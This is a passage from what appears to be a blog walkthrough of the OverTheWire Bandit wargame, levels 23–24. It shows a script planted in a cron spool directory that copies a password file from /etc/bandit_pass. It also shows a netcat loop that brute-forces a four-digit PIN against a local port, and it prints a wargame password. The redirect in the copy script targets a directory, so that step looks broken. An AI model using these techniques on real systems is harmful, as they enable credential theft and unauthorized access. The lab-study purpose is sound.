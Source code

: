 So we need to get a script into `/var/spool/bandit24` to give us the password.

{% highlight shell %}
$ mkdir /tmp/maxmunday
$ nano /tmp/maxmunday/getpw.sh
{% endhighlight %}

We write

{% highlight shell linenos %}
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/maxmunday

{% endhighlight %}

We then give the script and the folder the correct permissions to write and execute

{% highlight shell %}
$ chmod 777 /tmp/maxmunday/getpw.sh
$ chmod 777 /tmp/maxmunday/
{% endhighlight %}

Then we copy the script to the directory in the cronjob

{% highlight shell %}
$ cp /tmp/maxmunday/getpw.sh /var/spool/bandit24
{% endhighlight %}

Then after 1 minute we can check the /tmp/ directory

{% highlight shell %}
$ cat /tmp/maxmunday/bandit24
{% endhighlight %}

And the password is revealed.

\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-

\-\-[ Level 24 ]

For this level we need to submit a four digit pin along with the previous level's password to port 30002. 

We need to brute-force the pin through a script. 

{% highlight shell %}
$ nano /tmp/maxmunday/getpin.sh
{% endhighlight %}

{% highlight shell linenos %}
#!/bin/bash

START=0000
LAST_PIN=9999
HOST="localhost"
PORT=30002
PASSWD="UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ"

for i in `seq $START $LAST_PIN`;
do
        echo $PASSWD $i | nc $HOST $PORT >> result &
done
{% endhighlight %}
